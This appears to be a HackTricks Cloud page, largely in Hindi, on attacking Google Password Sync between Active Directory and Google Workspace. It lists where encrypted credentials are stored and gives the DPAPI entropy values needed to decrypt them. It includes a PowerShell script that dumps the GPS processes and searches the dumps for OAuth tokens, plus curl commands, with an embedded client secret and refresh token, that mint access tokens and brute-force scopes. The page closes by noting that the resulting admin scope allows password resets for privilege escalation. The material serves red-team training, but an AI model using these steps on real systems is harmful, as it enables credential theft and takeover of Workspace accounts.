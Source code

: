 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

यह वह बाइनरी और सेवा है जो Google उपयोगकर्ताओं के पासवर्ड को **AD** और Workspace के बीच **सिंक** में रखने के लिए प्रदान करता है। हर बार जब एक उपयोगकर्ता AD में अपना पासवर्ड बदलता है, तो इसे Google पर सेट किया जाता है।

यह `C:\Program Files\Google\Password Sync` में स्थापित होता है जहाँ आप इसे कॉन्फ़िगर करने के लिए बाइनरी `PasswordSync.exe` और `password_sync_service.exe` (सेवा जो चलती रहेगी) पा सकते हैं।

### GPS - Configuration

इस बाइनरी (और सेवा) को कॉन्फ़िगर करने के लिए, इसे **Workspace में एक सुपर एडमिन प्रिंसिपल तक पहुंच देना आवश्यक है**:

* Google के साथ **OAuth** के माध्यम से लॉगिन करें और फिर यह **पंजीकरण में एक टोकन (एन्क्रिप्टेड) स्टोर करेगा**
* केवल GUI के साथ डोमेन कंट्रोलर्स में उपलब्ध
* **Workspace उपयोगकर्ताओं को प्रबंधित करने** के लिए **GCP** से कुछ **Service Account क्रेडेंशियल्स** (json फ़ाइल) देना
* बहुत बुरा विचार क्योंकि ये क्रेडेंशियल कभी समाप्त नहीं होते और इसका दुरुपयोग किया जा सकता है
* Workspace पर SA को एक्सेस देना बहुत बुरा विचार है क्योंकि SA GCP में समझौता किया जा सकता है और Workspace पर पिवट करना संभव होगा
* Google इसे GUI के बिना डोमेन नियंत्रित करने के लिए आवश्यक करता है
* ये क्रेडेंशियल्स भी पंजीकरण में स्टोर होते हैं

AD के संबंध में, यह वर्तमान **एप्लिकेशन संदर्भ, गुमनाम या कुछ विशिष्ट क्रेडेंशियल्स** का उपयोग करने के लिए इंगित करना संभव है। यदि क्रेडेंशियल्स विकल्प चुना गया है, तो **उपयोगकर्ता नाम** एक फ़ाइल में **डिस्क** के अंदर स्टोर किया जाता है और **पासवर्ड** **एन्क्रिप्टेड** होता है और **पंजीकरण** में स्टोर होता है।

### GPS - Dumping password and token from disk

{% hint style="success" %}
Note that [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) is capable to detect **GPS**, get information about the configuration and **even decrypt the password and token**.
{% endhint %}

फ़ाइल **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** में यह संभव है कि **`baseDN`** का एक भाग पाया जाए जो AD के लिए कॉन्फ़िगर किया गया है और **`username`** जिसका क्रेडेंशियल्स का उपयोग किया जा रहा है।

पंजीकरण **`HKLM\Software\Google\Google Apps Password Sync`** में **एन्क्रिप्टेड रिफ्रेश टोकन** और **एन्क्रिप्टेड पासवर्ड** AD उपयोगकर्ता के लिए (यदि कोई हो) पाया जा सकता है। इसके अलावा, यदि टोकन के बजाय कुछ **SA क्रेडेंशियल्स** का उपयोग किया जाता है, तो यह भी संभव है कि उन्हें उस पंजीकरण पते में एन्क्रिप्टेड पाया जाए। इस पंजीकरण के अंदर **मान** केवल **प्रशासकों** द्वारा **पहुँच योग्य** होते हैं।

एन्क्रिप्टेड **पासवर्ड** (यदि कोई हो) कुंजी **`ADPassword`** के अंदर है और इसे **`CryptProtectData`** API का उपयोग करके एन्क्रिप्ट किया गया है। इसे डिक्रिप्ट करने के लिए, आपको उसी उपयोगकर्ता होना चाहिए जिसने पासवर्ड सिंक को कॉन्फ़िगर किया था और **`CryptUnprotectData`** का उपयोग करते समय इस **entropy** का उपयोग करना चाहिए: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

एन्क्रिप्टेड टोकन (यदि कोई हो) कुंजी **`AuthToken`** के अंदर है और इसे **`CryptProtectData`** API का उपयोग करके एन्क्रिप्ट किया गया है। इसे डिक्रिप्ट करने के लिए, आपको उसी उपयोगकर्ता होना चाहिए जिसने पासवर्ड सिंक को कॉन्फ़िगर किया था और **`CryptUnprotectData`** का उपयोग करते समय इस **entropy** का उपयोग करना चाहिए: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
इसके अलावा, इसे **`0123456789abcdefghijklmnopqrstv`** शब्दकोश के साथ base32hex में भी एन्कोड किया गया है।

Entropy मानों को टूल का उपयोग करके पाया गया। इसे **`CryptUnprotectData`** और **`CryptProtectData`** के लिए कॉल की निगरानी करने के लिए कॉन्फ़िगर किया गया था और फिर टूल का उपयोग `PasswordSync.exe` को लॉन्च और मॉनिटर करने के लिए किया गया जो कॉन्फ़िगर किए गए पासवर्ड और ऑथ टोकन को शुरू में डिक्रिप्ट करेगा और टूल **दोनों मामलों में उपयोग की गई एंट्रॉपी के लिए मान दिखाएगा**:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

ध्यान दें कि इन APIs के लिए कॉल के इनपुट या आउटपुट में **डिक्रिप्टेड** मान भी देखना संभव है (यदि किसी बिंदु पर Winpeas काम करना बंद कर दे)।

यदि पासवर्ड सिंक **SA क्रेडेंशियल्स के साथ कॉन्फ़िगर किया गया था**, तो यह भी पंजीकरण **`HKLM\Software\Google\Google Apps Password Sync`** के अंदर कुंजियों में स्टोर किया जाएगा।

### GPS - Dumping tokens from memory

GCPW की तरह, `PasswordSync.exe` और `password_sync_service.exe` प्रक्रियाओं की मेमोरी को डंप करना संभव है और आप रिफ्रेश और एक्सेस टोकन (यदि पहले से उत्पन्न हो चुके हैं) पा सकेंगे।\
मुझे लगता है कि आप AD कॉन्फ़िगर किए गए क्रेडेंशियल्स भी पा सकते हैं।

<details>

<summary>Dump <code>PasswordSync.exe</code> and the <code>password_sync_service.exe</code> processes and search tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - रिफ्रेश टोकन से एक्सेस टोकन उत्पन्न करना

रिफ्रेश टोकन का उपयोग करके, इसे और निम्नलिखित कमांड में निर्दिष्ट क्लाइंट आईडी और क्लाइंट सीक्रेट का उपयोग करके एक्सेस टोकन उत्पन्न करना संभव है:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
ध्यान दें कि रिफ्रेश टोकन होने के बावजूद, आप एक्सेस टोकन के लिए किसी भी स्कोप का अनुरोध नहीं कर सकते क्योंकि आप केवल उन **स्कोप का अनुरोध कर सकते हैं जो उस एप्लिकेशन द्वारा समर्थित हैं जहां आप एक्सेस टोकन उत्पन्न कर रहे हैं**।

इसके अलावा, रिफ्रेश टोकन हर एप्लिकेशन में मान्य नहीं है।
{% endhint %}

डिफ़ॉल्ट रूप से GPS उपयोगकर्ता के रूप में हर संभावित OAuth स्कोप तक पहुंच नहीं होगी, इसलिए निम्नलिखित स्क्रिप्ट का उपयोग करके हम उन स्कोप को खोज सकते हैं जिन्हें `refresh_token` के साथ `access_token` उत्पन्न करने के लिए उपयोग किया जा सकता है:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

और यह वह आउटपुट है जो मुझे लेखन के समय मिला:
```
https://www.googleapis.com/auth/admin.directory.user
```
जो वही है जो आपको मिलता है यदि आप कोई दायरा निर्दिष्ट नहीं करते हैं।

{% hint style="danger" %}
इस दायरे के साथ आप **एक मौजूदा उपयोगकर्ता का पासवर्ड संशोधित कर सकते हैं ताकि विशेषाधिकार बढ़ सके**।
{% endhint %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) जांचें!
* **हमारे साथ जुड़ें** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर **फॉलो करें**।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
